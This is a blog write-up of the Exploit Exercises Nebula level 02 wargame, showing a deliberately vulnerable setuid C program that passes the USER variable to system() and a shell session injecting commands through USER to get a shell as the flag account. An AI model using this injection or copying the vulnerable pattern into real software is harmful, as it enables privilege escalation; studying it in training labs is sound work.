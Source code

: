 ```yaml
---
title: "Exploit Exercises - Nebula 02"
date: "2011-12-03T08:13:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-02.html"
 - "/2011/12/02/exploit-exercises-nebula-02"
---
```


In [this](http://exploit-exercises.com/nebula/level02) challenge, we're again provided with the source code to the vulnerable program.  Only this time, they're not loading the "echo" program from the environment's path.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 char *buffer;

 gid_t gid;
 uid_t uid;

 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
 printf("about to call system(\"%s\")\n", buffer);

 system(buffer);
}
```

What I did initially notice here, is that the "USER" variable is being called directly from the environment.  This makes it very similar to the previous challenge.  I luckily got this one on my first try. 

```
level02@nebula:/home/flag02$ USER='-e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02'
level02@nebula:/home/flag02$ export USER
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo -e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02 is cool")
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

What we're doing here, is injecting code into the echo command.  This, like the last challenge, makes a bash script at /tmp/level02 which will ignore any other parameters.  It then marks it executable so we can actually execute it.  Then it executes the bash script.

Often times in situations like this, the bash script wouldn't be needed, but since the " is cool" is following the execution, it needs to handle that.  A bash script lets it get ignored, where passing it as a parameter to /bin/bash would try to execute it. 

I'm guessing there may be an easier way than creating the bash script.  Maybe a way to comment out the rest of the line?  I'm not sure, but I know this method worked great for me.
